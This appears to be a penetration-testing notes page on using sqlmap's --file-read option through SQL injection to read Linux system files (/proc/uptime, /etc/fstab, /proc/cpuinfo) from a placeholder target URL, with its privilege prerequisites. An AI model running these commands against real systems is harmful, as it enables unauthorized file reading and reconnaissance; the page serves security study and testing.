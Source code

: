 # Linux

Search Tag(s): #sqlmap #enumeration-and-discovery

## Conditions

1. The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
2. Note: Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## Automated

- Check uptime

```
$ sqlmap -u "<URL>" --random-agent --file-read="/proc/uptime"
```

- Enumerate mounted drives and network shares.

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/fstab"
```

- Enumerate CPU cores

```
$ sqlmap -u "<URL>" --random-agent --file-read="/proc/cpuinfo"
```